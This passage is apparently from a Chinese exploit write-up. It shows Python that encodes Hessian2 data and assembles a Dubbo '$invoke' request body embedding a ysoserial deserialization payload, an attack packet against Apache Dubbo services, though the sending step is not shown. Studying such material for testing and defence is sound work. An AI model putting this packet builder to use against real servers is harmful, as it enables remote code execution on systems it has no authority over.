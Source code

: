 ```java
            for (int i = 0; i < args.length; i++) {
                out.writeObject(encodeInvocationArgument(channel, inv, i));
            }
        }
        out.writeAttachments(inv.getObjectAttachments());
    }
```

根据Hessian2的序列化方式封装函数，注意序列化字符串和byte数组的时候根据长度不同会有不同的写法，按照源码改写就可以了

```python
def hex_pad(length): 
    tmp = hex(length)[2:]
    if len(tmp) % 2:
        return '0'+tmp
    else:
        return tmp
        
def hessian2_writeString(s):
    l = len(s)
    if l <= 31:      
        return bytes.fromhex(hex_pad(l))+s.encode()
    elif l <= 1023:
        return bytes.fromhex(hex_pad((l >> 8 )+ 48)) + bytes.fromhex(hex_pad(l & 0xff)) + s.encode()
    else:
        return b'S' + bytes.fromhex(hex_pad(l >> 8 )) + bytes.fromhex(hex_pad(l & 0xff)) + s.encode()
        
def hessian2_writeBytes(obj):
    if type(obj) is not bytes:
        return
    l = len(obj)
    if l <= 15:      
        return bytes.fromhex(hex_pad(l + 32))+obj
    elif l <= 1023:
        return bytes.fromhex(hex_pad((l >> 8 )+ 52)) + bytes.fromhex(hex_pad(l & 0xff)) + obj
    else:
        return b'B' + bytes.fromhex(hex_pad(l >> 8 )) + bytes.fromhex(hex_pad(l & 0xff)) + obj
```

封装数据包

```python
# body

body = hessian2_writeString('2.0.2')
body += hessian2_writeString(service_name)
body += hessian2_writeString('0.0.0')
body += hessian2_writeString('$invoke')
body += hessian2_writeString('Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;')
body += hessian2_writeString(func_name)
body += b'q'                                        
body += hessian2_writeString('[string')            
body += hessian2_writeString(parameter_desc)        
body += b'q'                                      
body += hessian2_writeString('[object')           
body += hessian2_writeBytes(yso_payload)           

# config map

body += b'H'
body += hessian2_writeString('path')
body += hessian2_writeString(service_name)
body += hessian2_writeString('remote.application')
```
